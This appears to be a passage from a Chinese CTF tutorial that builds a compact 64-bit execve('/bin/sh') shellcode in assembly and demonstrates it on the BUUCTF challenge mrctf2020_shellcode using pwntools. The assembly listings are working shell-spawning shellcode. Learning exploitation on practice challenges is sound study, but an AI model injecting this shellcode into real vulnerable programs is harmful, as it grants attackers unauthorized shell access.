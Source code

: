 因为很多有难度的题目都会限制shellcode的长度，*因此我们所选的shellcode，是越短越好。*

最后，就是将execve对应的系统调用号放入rax中，然后syscall即可

那剩下的汇编就是
```assembly

xor rax,rax

mov rax,0x3b

syscall
```


然后把刚才所写的三部分汇总一下并且精简一下最后仅仅用了0x1e个字节。

```assmebly
xor rax,rax
push 0x3b
pop rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi
push rsp
pop rdi
xor rsi,rsi
xor rdx,rdx
syscall
```
<img src="/upload/img/image-20220411122834434.png" alt="image-20220411122834434" style="zoom:50%;" />

此时只要执行这个shellcode，就可以去拿到shell了。这里拿一道BUUCTF上的mrctf2020_shellcode来演示一下。题目链接[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#mrctf2020_shellcode)

使用IDA分析之后（这道题无法F5，不过可以看汇编来分析），发现我们输入的内容直接就被执行了，因此什么都不用考虑，这道题仅仅就是考察我们64位汇编编写shellcode的能力。利用pwntools中的asm把刚才写好的汇编内容转换成机器码，然后发送过去即可获取shell。
